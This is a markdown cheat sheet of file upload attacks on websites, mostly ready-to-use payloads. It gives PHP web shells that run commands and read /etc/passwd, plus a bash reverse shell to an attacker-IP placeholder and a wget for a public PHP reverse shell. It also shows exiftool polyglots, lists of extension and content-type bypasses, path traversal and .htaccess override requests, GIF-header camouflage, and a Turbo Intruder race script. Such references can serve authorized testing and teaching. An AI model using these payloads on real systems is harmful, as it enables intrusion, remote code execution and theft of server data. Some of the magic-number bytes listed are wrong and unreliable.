 ```yaml
---
title: File Upload Attack
desc: 
tags: [Burp, Exiftool, File, Netcat, Reverse, Shell, Upload, Web]
alts: [OS-Command-Injection, Reverse-Shell]
render_with_liquid: false
---
```


## Prepare a Payload

- **Web Shell**

    For example, the file name is "exploit.php".

    Simply showing the result of 'whoami'.

    ```php
    <?php echo system('whoami'); ?>
    ```

    This shows the content of "/etc/passwd".

    ```php
    <?php echo file_get_contents('/etc/passwd');  ?>
    ```

    Or you can use more useful payload with query parameter e.g. "/exploit.php?cmd=whoami"

    ```php
    <?php echo system($_GET['cmd']); ?>
    ```

- **Reverse Shell**

    ```php
    <?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'"); ?>
    ```

    Or download the payload from GitHub.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables in the payload
    $ip = '<attacker-ip>'
    $port = 4444
    ```

    You need to open listener for getting a shell.

    ```sh
    nc -lvnp 4444
    ```

    After uploading it, reload the page in which the payload uploaded e.g. "/upload/shell.php".

- **Polyglot using Exiftool**

    It's assumed that you have an arbitrary image file.

    ```sh
    exiftool -Comment="<?php system('ls'); ?>" example.png
    exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
    exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
    ```

<br />

## Bypass Techniques

Upload the exploit files in the target website e.g. the profile picture's upload form.  
In most cases, you need to bypass the file validation.

- **File Extensions**

    If you cannot upload the payload with ".php", modify the extension and try it.

    ```
    exploit.php
    exploit.php3
    exploit.php4
    exploit.php5
    exploit.phtml
    exploit.phar

    exploit.php.
    exploit.php.jpg
    exploit.php.png
    exploit%2Ephp
    exploit.p.phphp
    exploit.php%00.jpg
    exploit.php%0d%0a.jpg
    exploit.pHp
    exploit.gif.pHp
    exploit.jpg.php
    exploit.png.php
    ```

- **Content-Types**

    If you cannot upload with "Content-Type: application/x-php", try changing it to **"Content-Type: image/jpeg"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: image/jpeg

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

- **Path Traversal with the File Name**

    You may be able to edit the upload location by changing the **"filename"**.

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
    Content-Type: application/x-php

    <?php echo system($_GET['cmd']); ?>

    ------abcdefghijk
    ```

- **Server Configurations**

    You may be able to override the ".htaccess".

    ```
    POST /upload HTTP/1.1
    ...

    ------abcdefghijk
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain

    AddType application/x-httpd-php .abc

    ------abcdefghijk
    ```

- **Camouflage as Image Files**

    You may be able to bypass exif_imagetype() of PHP by editing the contents in the payload as image file.

    ```php
    // exploit.php

    GIF32a
    <?php echo system($_GET['cmd']); ?>
    ```

- **Bypass the Filter (Client-Side & Server-Side)**

    If the target website uses filter JavaScript around file uploading, you may be able to bypass it by using Burp Suite.

    ```sh
    On Burp Suite, click "Proxy" tab and "Options".

    # Client-Side
    1. Navigate to "Intercept Client Requests" section, click on the top line ("File extension"...) then click "Edit".
    2. The popup will open.
    3. On the popup, find and remove the "|^js$" in the "Match condition", then save the filter.

    # Server-Side
    1. Navigate to "Intercept Server Requests" section and check "Intercept responses based on...".

    # ----------------------------------------------

    1. Turn the intercept on.
    2. On browser, press Ctrl+F5 (hard refresh) to reload the page.
    3. If you found the filtering file (.js), drop it.
    ```

- **Race Conditions using Turbo Intruder**

    ```python
    def queueRequests(target, wordlists):
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=10,)

        request_post = '''POST /avatar/upload HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close

    ------abcdefghi
    Content-Disposition: form-data; name="avatar"; filename="exploit.php"
    Content-Type: application/x-php

    <?php echo file_get_contents('/etc/passwd');  ?>

    ------abcdefghijk--

    '''

        request_get = '''GET /files/avatars/exploit.php HTTP/1.1
    Host: vulnerable.com
    ...
    ...
    Connection: close


    '''

        engine.queue(request_post, gate='race1')
        for i in range(5):
            engine.queue(request_get, gate='race1')


        engine.openGate('race1')
        engine.complete(timeout=60)
        


    def handleResponse(req, interesting):
        table.add(req)
    ```

<br />

## Other Tips

- **Magic Numbers**

    ```sh
    # PNG
    89 50 4E 47 ...

    # JPEG
    FF D8 DD E0 ...

    # JPG
    FF D8 FF EE ...
    ```